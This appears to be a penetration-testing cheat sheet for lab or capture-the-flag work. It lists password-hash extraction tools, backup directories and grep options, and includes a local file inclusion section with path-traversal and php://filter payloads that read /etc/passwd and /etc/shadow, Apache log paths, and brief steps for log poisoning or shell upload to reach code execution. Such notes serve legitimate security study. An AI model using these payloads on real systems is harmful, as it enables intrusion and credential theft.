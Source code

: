 ===special===
```
ssh2john
zip2john
tcpdump -i tun0 icmp
keepass2john
```

===important dirs linux===
```
/opt/backups/
/var/backups/
```

========grep cheatsheet====
```
grep <text> <options> ./fileDIr

preferred options:
-i : case insensitive
-v : exclude
-n : number of lines
```

===lfi bypass====
- check lfi
```
../../../../../../etc/passwd
```
-lfi to RCE
```
1. if you have an ftp upload a shell via put method
2. check the acess.log( log poisonning), or user-agent
```

- lfi bypass filter
```
php://filter/convert.base64-encode/resource=/etc/passwd
or
php://filter/resource=/etc/passwd
```

- files interesting
```
/etc/passwd
/etc/shadow
/etc/shells
/etc/group
/etc/hosts
```

- log files 
```
/var/log/apache/access.log
/var/log/apache2/access.log
/var/log/httpd/access_log
/var/log/apache/error.log
/var/log/apache2/error.log
/var/log/httpd/error_log
```
